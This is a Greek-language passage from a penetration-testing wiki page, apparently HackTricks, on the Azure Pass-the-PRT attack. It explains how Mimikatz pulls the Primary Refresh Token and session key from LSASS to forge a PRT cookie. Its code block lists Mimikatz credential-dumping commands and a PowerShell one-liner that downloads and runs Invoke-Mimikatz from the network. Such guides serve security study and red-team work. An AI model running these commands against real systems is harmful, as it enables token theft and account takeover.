 {% hint style="danger" %}
Τα υπόλοιπα πρέπει να είναι τα προεπιλεγμένα. Βεβαιωθείτε ότι μπορείτε να ανανεώσετε τη σελίδα και το cookie δεν εξαφανίζεται, αν το κάνει, μπορεί να έχετε κάνει κάποιο λάθος και πρέπει να επαναλάβετε τη διαδικασία. Αν δεν εξαφανίζεται, τότε είστε εντάξει.
{% endhint %}

### Επίθεση - Mimikatz

#### Βήματα

1. Το **PRT (Primary Refresh Token) εξάγεται από το LSASS** (Local Security Authority Subsystem Service) και αποθηκεύεται για μετέπειτα χρήση.
2. Στη συνέχεια εξάγεται το **Session Key**. Δεδομένου ότι αυτό το κλειδί εκδίδεται αρχικά και στη συνέχεια επανακρυπτογραφείται από την τοπική συσκευή, απαιτείται αποκρυπτογράφηση χρησιμοποιώντας ένα DPAPI masterkey. Λεπτομερείς πληροφορίες σχετικά με το DPAPI (Data Protection API) μπορούν να βρεθούν σε αυτούς τους πόρους: [HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords) και για κατανόηση της εφαρμογής του, ανατρέξτε στην [επίθεση Pass-the-cookie](az-pass-the-cookie.md).
3. Μετά την αποκρυπτογράφηση του Session Key, λαμβάνονται το **παράγωγο κλειδί και ο πλαίσιο για το PRT**. Αυτά είναι κρίσιμα για τη **δημιουργία του PRT cookie**. Συγκεκριμένα, το παράγωγο κλειδί χρησιμοποιείται για την υπογραφή του JWT (JSON Web Token) που αποτελεί το cookie. Μια λεπτομερής εξήγηση αυτής της διαδικασίας παρέχεται από τον Dirk-jan, προσβάσιμη [εδώ](https://dirkjanm.io/digging-further-into-the-primary-refresh-token/).

{% hint style="danger" %}
Σημειώστε ότι αν το PRT βρίσκεται μέσα στο TPM και όχι μέσα στο `lsass` **το mimikatz δεν θα μπορέσει να το εξάγει**.\
Ωστόσο, θα είναι δυνατό να **ληφθεί ένα κλειδί από ένα παράγωγο κλειδί από ένα πλαίσιο** από το TPM και να χρησιμοποιηθεί για τη **υπογραφή ενός cookie (ελέγξτε την επιλογή 3).**
{% endhint %}

Μπορείτε να χρησιμοποιήσετε το **mimikatz** για να εξάγετε το PRT:
```powershell
mimikatz.exe
Privilege::debug
Sekurlsa::cloudap

# Or in powershell
iex (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap"'
```
(Εικόνες από https://blog.netwrix.com/2023/05/13/pass-the-prt-overview)

<figure><img src="../../../.gitbook/assets/image (251).png" alt=""><figcaption></figcaption></figure>
